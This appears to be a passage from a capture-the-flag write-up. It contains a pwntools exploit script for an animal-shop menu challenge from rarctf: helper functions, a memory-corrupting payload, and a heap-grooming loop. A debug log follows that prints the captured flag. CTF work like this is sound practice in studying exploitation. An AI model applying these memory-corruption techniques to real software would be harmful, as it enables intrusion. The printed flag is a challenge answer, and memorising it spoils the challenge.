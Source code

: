 ```python
        r.sendlineafter('? ', str(idx))
        r.sendlineafter('> ', '3')
        r.sendlineafter('? ', name)
def trans(idx):
        r.sendlineafter('> ', '4')
        r.sendlineafter('> ', '2')
        r.sendlineafter('? ', str(idx))
        r.sendlineafter('> ', '4')

buy(1, 'A'*8)
payload = ''
payload += 'a' * 0x1c
payload += flat(0x41, 0x404d78, u64("flag".ljust(8, '\x00')), 0)
payload += p32(0x7e00ff00)
for i in range(10):
        buy(2, 'B'*8)
        ret = r.recvuntil('1) List Animals')
        if 'died' in ret:
                buy(1, 'A'*8)
        rename(0, payload)
        ret = r.recvuntil('1) List Animals')
        if 'died' in ret:
                buy(1, 'A'*8)
        sell(1)
        ret = r.recvuntil('1) List Animals')
        if 'died' in ret:
                buy(1, 'A'*8)

buy(2, 'B'*8)
rename(0, payload)
trans(1)
r.interactive()
```

```
[DEBUG] Received 0x36 bytes:
    '1) Sell\n'
    '2) Feed (50c)\n'
    '3) Rename (100c)\n'
    '4) Translate\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '4\n'
[*] Switching to interactive mode
[DEBUG] Received 0x62 bytes:
    ' __________\n'
    '< Feed me! >\n'
    ' ----------\n'
    '  \\\n'
    '    \\\n'
    'rarctf{C0w_s4y_m00_p1g_s4y_01nk_fl4g_s4y-251e363a}\n'
```
